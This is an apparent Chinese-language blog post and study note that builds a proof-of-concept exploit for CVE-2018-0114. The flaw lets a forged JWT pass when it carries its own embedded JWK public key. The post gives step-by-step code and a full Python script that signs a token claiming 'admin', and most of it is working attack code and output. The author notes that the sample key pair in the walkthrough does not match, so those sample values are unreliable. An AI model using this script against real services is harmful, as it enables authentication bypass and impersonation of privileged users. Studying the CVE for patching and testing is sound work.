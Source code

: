 ```yaml
---
title: 'CVE-2018-0114 POC编写与实践'
date: 2022-11-28 21:27:49
tags: [jwt,CVE,学习笔记]
published: true
hideInList: false
feature: 
isTop: false
---
```


一篇水文。。。起名困难症（改了几次） 参考思路就行

## POC构造思路

1. 先生成rsa密钥 ：public key 和private key

```python
import rsa 

def generate_key(key_size):
    print('[+]Creating-RSA-pair-key')
    (public_key, private_key) = rsa.newkeys(key_size, poolsize=8)
    print("\t[+]Pair-Key-created")

    return private_key, public_key

private_key, public_key = generate_key(int(512))
```

2. 提取 n，e:
  

```python
print(public_key.n)
```

为：

```python
7076715501507999070466602684619345782186000392746800466731867297328334333379571428801893507491054811882528149952022901781164450081630600727750713002635091
```

bytes转int（[https://blog.csdn.net/iblade/article/details/73289831](https://blog.csdn.net/iblade/article/details/73289831) )

```python
def pack_bigint(i):
    b = bytearray()
    while i:
        b.append(i & 0xFF)
        i >>= 8
    return b[::-1]
```

然后再转为base64编码的

```python
n=base64.urlsafe_b64encode(pack_bigint(pubkey.n)).decode('utf-8').rstrip('=')
e=base64.urlsafe_b64encode(pack_bigint(pubkey.e)).decode('utf-8').rstrip('=')
```

汇总一下写py脚本就是

```python
def get_n_and_e(target):
    b = bytearray()
    while target:
        b.append( target & 0xFF)
        target >>= 8
    int_object = b[::-1]
    return base64.urlsafe_b64encode(int_object).decode('utf-8').rstrip('=')
```

获取到的n为：

```python
mbS8ENZVgERqASWVZK892gvgZug3Cul46tR6lLZFcmM7_8ZA4vLuUWdwfrXsZtM6z_ORJmGz2mQQ10J5uhlgZw
```

获取到的e为

```python
AQAB
```

3. 构造header
  

将刚刚生成的n和e放入符合格式要求的header下（有jwk）

```python
{
  "alg":"RS256",
  "jwk":  {
          "kty":"RSA",
          "kid":"bilbo.baggins@hobbiton.example",
          "use":"sig",
          "n":"mbS8ENZVgERqASWVZK892gvgZug3Cul46tR6lLZFcmM7_8ZA4vLuUWdwfrXsZtM6z_ORJmGz2mQQ10J5uhlgZw",
          "e":"AQAB"
          }
}
```

base64后则是：

```python
ewogICJhbGciOiJSUzI1NiIsCiAgImp3ayI6ICB7CiAgICAgICAgICAia3R5IjoiUlNBIiwKICAgICAgICAgICJraWQiOiJiaWxiby5iYWdnaW5zQGhvYmJpdG9uLmV4YW1wbGUiLAogICAgICAgICAgInVzZSI6InNpZyIsCiAgICAgICAgICAibiI6Im1iUzhFTlpWZ0VScUFTV1ZaSzg5Mmd2Z1p1ZzNDdWw0NnRSNmxMWkZjbU03XzhaQTR2THVVV2R3ZnJYc1p0TTZ6X09SSm1HejJtUVExMEo1dWhsZ1p3IiwKICAgICAgICAgICJlIjoiQVFBQiIKICAgICAgICAgIH0KfQ
```

4. 生成payload
  

```python
def generate_payload():
    logined_in = b'admin'
    payload = base64.urlsafe_b64encode(logined_in).decode('utf-8').rstrip('=')
    return payload
```

生成后的

```python
YWRtaW4
```

5. 对header+payload部分进行sign
  

```python
firstpart = "ewogICJhbGciOiJSUzI1NiIsCiAgImp3ayI6ICB7CiAgICAgICAgICAia3R5IjoiUlNBIiwKICAgICAgICAgICJraWQiOiJiaWxiby5iYWdnaW5zQGhvYmJpdG9uLmV4YW1wbGUiLAogICAgICAgICAgInVzZSI6InNpZyIsCiAgICAgICAgICAibiI6Im1iUzhFTlpWZ0VScUFTV1ZaSzg5Mmd2Z1p1ZzNDdWw0NnRSNmxMWkZjbU03XzhaQTR2THVVV2R3ZnJYc1p0TTZ6X09SSm1HejJtUVExMEo1dWhsZ1p3IiwKICAgICAgICAgICJlIjoiQVFBQiIKICAgICAgICAgIH0KfQ.YWRtaW4"
signature = rsa.sign(firstpart, private_key, 'SHA-256')
signature = base64.b64encode(signature)
```

最后为：

```python
KlmabUs5RmdVCLWbjdWppgjy43kp9yxibCO8IHCXPV/oHGVziCIHS7XCdvATomjocdBM1ZnXU/nlJFWaK4Cuuw==
```

6. 组合
  

```python
ewogICJhbGciOiJSUzI1NiIsCiAgImp3ayI6ICB7CiAgICAgICAgICAia3R5IjoiUlNBIiwKICAgICAgICAgICJraWQiOiJiaWxiby5iYWdnaW5zQGhvYmJpdG9uLmV4YW1wbGUiLAogICAgICAgICAgInVzZSI6InNpZyIsCiAgICAgICAgICAibiI6Im1iUzhFTlpWZ0VScUFTV1ZaSzg5Mmd2Z1p1ZzNDdWw0NnRSNmxMWkZjbU03XzhaQTR2THVVV2R3ZnJYc1p0TTZ6X09SSm1HejJtUVExMEo1dWhsZ1p3IiwKICAgICAgICAgICJlIjoiQVFBQiIKICAgICAgICAgIH0KfQ.YWRtaW4.KlmabUs5RmdVCLWbjdWppgjy43kp9yxibCO8IHCXPV/oHGVziCIHS7XCdvATomjocdBM1ZnXU/nlJFWaK4Cuuw
```

上面的仅供参考参考，模块化执行的（写好笔记后发现举的例子里private_key和public_key不是一对）

## 汇总

参考github（[POC-CVE-2018-0114/jwk-node-jose.py at master · zi0Black/POC-CVE-2018-0114 · GitHub](https://github.com/zi0Black/POC-CVE-2018-0114/blob/master/jwk-node-jose.py)） ，我写的代码：

```python
import rsa 
import base64
from urllib.parse import quote_plus
import json 

def generate_key(key_size):
    print('[+]Creating-RSA-pair-key')
    (public_key, private_key) = rsa.newkeys(key_size, poolsize=8)
    print("\t[+]Pair-Key-created")

    return private_key, public_key

def get_n_and_e(target):
    b = bytearray()
    while target:
        b.append( target & 0xFF)
        target >>= 8
    int_object = b[::-1]
    return base64.urlsafe_b64encode(int_object).decode('utf-8').rstrip('=')

def generate_payload():
    logined_in = b'admin'
    payload = base64.urlsafe_b64encode(logined_in).decode('utf-8').rstrip('=')
    return payload
    print(payload)

def generate_header(public_key):
    n = get_n_and_e(public_key.n)
    e = get_n_and_e(public_key.e)

    format_header = {
      "alg":"RS256",
      "jwk":  {
              "kty":"RSA",
              "kid":"bilbo.baggins@hobbiton.example",
              "use":"sig",
              "n":f"{n}",
              "e":f"{e}"
              }
    }
    format_header = json.dumps(format_header)
    header = base64.b64encode(format_header.encode())
    return header

def sign(target,private_key):
    signature = rsa.sign(target, private_key, 'SHA-256')
    signature = base64.b64encode(signature)
    return signature


def output(header,payload,signature):
    auth = header+b'.'+payload+b'.'+signature
    auth = auth.decode('utf-8').rstrip('=') 
    return quote_plus(auth)
def main():
    private_key, public_key = generate_key(int(512))
    header = generate_header(public_key)
    payload = base64.b64encode(b'admin')
    signature = sign(header+b'.'+payload, private_key)
    print(output(header, payload, signature) )
main()
```
